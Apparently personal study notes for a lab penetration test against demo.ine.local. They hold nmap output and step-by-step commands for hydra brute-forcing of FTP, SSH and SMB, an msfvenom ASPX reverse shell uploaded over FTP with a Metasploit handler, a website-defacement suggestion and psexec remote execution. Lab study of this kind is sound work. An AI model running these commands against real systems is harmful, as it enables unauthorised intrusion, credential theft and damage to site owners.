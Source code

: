 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` `
- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 


psexec allows you to remotely authenticate via SMB with legitimate credentials
	- `locate psexec.py `
	- Copy the file to Desktop:` cp file path  `
	- make the file executable so we can utilize it: `chmod +x psexec.py`
- `python 3 psexec.py Administrator@ip `


msfconsole - search psexec 
- use exploit/windows/smb/psexec 






























#### Targeting MySQL Database Server 
